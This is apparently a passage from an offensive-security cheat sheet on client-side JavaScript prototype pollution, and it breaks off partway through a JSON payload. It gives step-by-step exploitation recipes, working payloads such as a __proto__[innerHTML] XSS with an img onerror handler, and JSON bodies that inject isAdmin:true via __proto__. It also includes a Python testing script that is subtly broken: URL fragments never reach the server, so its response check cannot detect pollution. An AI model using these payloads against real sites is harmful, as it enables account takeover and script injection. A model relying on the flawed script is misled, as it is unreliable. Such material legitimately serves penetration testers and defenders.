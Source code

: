 - **Step-by-step exploitation techniques**

  - **Client-side JavaScript prototype pollution**
    1. **URL fragment-based pollution**:
       - Step 1: Identify a potential parameter reflected in client-side code
       - Step 2: Attempt to pollute Object.prototype using the hash fragment:
         ```
         https://vulnerable-website.com/#__proto__[property]=value
         ```
       - Step 3: Verify pollution by checking if `{}[property]` equals `value` in browser console
       - Step 4: Look for script gadgets that use the polluted property
       - Step 5: Construct a payload that triggers the gadget with malicious content
       - Example: `https://vulnerable-website.com/#__proto__[innerHTML]=<img/src/onerror=alert(1)>`
       - Testing insight: Try different property formats (`__proto__`, `constructor.prototype`)
       - Python script for URL fragment pollution testing:
       ```python
       import requests
       from urllib.parse import quote
       
       def test_url_pollution(base_url, properties_to_test):
           results = []
           
           for prop in properties_to_test:
               test_url = f"{base_url}#__proto__[{prop}]=POLLUTION_TEST"
               response = requests.get(test_url)
               
               # Check if the response indicates successful pollution
               # This is application-specific and might require manual verification
               if "POLLUTION_TEST" in response.text:
                   results.append(f"Potential pollution via property: {prop}")
           
           return results
       
       # Example usage
       base_url = "https://vulnerable-website.com/"
       properties_to_test = ["isAdmin", "configUrl", "url", "src", "innerHTML", "data"]
       
       findings = test_url_pollution(base_url, properties_to_test)
       for finding in findings:
           print(finding)
       ```

    2. **JSON-based client-side pollution**:
       - Step 1: Identify endpoints that accept JSON data and pass it to client-side code
       - Step 2: Intercept the request and modify the JSON payload to include `__proto__`:
       ```json
       {
         "username": "user",
         "__proto__": {
           "isAdmin": true
         }
       }
       ```
       - Step 3: Send the modified request and observe client-side behavior changes
       - Step 4: Look for script gadgets that use the polluted property
       - Step 5: Construct a malicious payload targeting identified gadgets
       - Example JSON payload for XSS:
       ```json
       {
         "username": "user",
         "__proto__": {